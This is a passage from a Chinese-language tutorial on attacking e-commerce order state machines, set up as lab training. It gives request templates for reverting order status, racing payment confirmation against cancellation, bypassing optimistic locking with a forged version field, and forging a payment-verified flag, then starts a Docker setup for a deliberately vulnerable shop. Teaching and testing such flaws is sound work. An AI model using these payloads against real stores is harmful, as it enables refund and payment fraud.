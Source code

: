 #### 逆向状态回退
```python
import requests

# 构造状态回退链
for status in ["completed", "shipped", "paid", "pending"]:
    requests.patch(f"/orders/789/status", json={"status": status})
```

### 2.2 高级利用技巧
#### 时间窗口攻击
利用状态变更异步处理间隙：
```bash
# 快速连续发送冲突状态
curl -X POST /pay/confirm -d "order_id=456" &
curl -X POST /cancel -d "order_id=456" &
```

#### 元数据注入
```http
POST /graphql
{
  "query": "mutation { 
    updateOrder(id: 789, 
      input: { 
        status: REFUNDED, 
        _version: 0  # 绕过乐观锁
      }) 
  }"
}
```

#### 状态机寄生
```javascript
// 通过自定义字段影响状态判断
{
  "status": "pending",
  "payment": {
    "verified": true  # 支付校验绕过
  }
}
```

## 三、实战环境搭建与漏洞利用
### 3.1 实验环境部署
使用 Docker 快速搭建脆弱系统：
```dockerfile
# docker-compose.yml
version: '3'
services:
  web:
    image: vulnshop:1.2
    ports:
      - "8080:8080"
  db:
    image: postgres:12
    environment:
      POSTGRES_PASSWORD: insecure
```
